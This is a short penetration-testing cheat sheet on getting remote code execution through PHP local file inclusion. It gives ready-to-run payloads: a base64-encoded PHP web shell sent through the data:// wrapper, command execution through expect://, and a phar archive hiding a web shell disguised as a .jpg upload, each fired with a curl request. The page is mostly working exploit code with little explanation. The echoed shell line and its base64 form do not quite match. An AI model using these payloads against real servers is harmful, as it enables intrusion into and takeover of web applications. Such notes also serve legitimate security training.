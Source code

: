 ##### Via LFI and PHP wrappers
Encode PHP script in base64:
```bash
echo '<?php system($_REQUEST("cmd")) ?>' | base64
```

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Data wrapper expect
Check config for
```
extension=expect
```

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### Via phar upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

?>
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

[[php]]